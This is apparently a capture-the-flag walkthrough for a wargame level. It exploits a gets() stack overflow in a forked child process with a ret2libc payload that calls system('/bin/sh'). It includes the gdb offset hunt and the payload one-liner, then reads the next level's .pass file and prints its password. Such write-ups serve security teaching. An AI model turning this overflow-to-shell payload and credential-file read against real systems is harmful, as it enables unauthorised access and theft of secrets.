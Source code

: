 # Level04

## Setup

We find a binary file at the root of the user **`level04`** named *`./level04`*.

```bash
scp -r -P 4242 level04@<vm_ip>:/home/users/level04/level04 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).


## Source
	char s[128];
	__pid_t v9;

	v9 = fork();
	...
	gets(s);

s is size 128 but we can write as much as we want inside thanks to `gets(s)`

The only issue is that `gets(s)` is called in a child process and gdb doesn't check child processes by default, we need to add this option :

	set follow-fork-mode child

### gdb
	> set follow-fork-mode child
	> r < <(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")
	
	Program received signal SIGSEGV, Segmentation fault.
	[Switching to process 2572]
	0x41326641 in ?? ()

Overflow at offset `156`

### Payload
	system(), exit() and "/bin/sh" are at the same addresses as before
	
	> python -c "print 'A'*156 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload04
	> cat /tmp/payload04 - | ./level04 
	Give me some shellcode, k
	> cat /home/users/level05/.pass
	3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
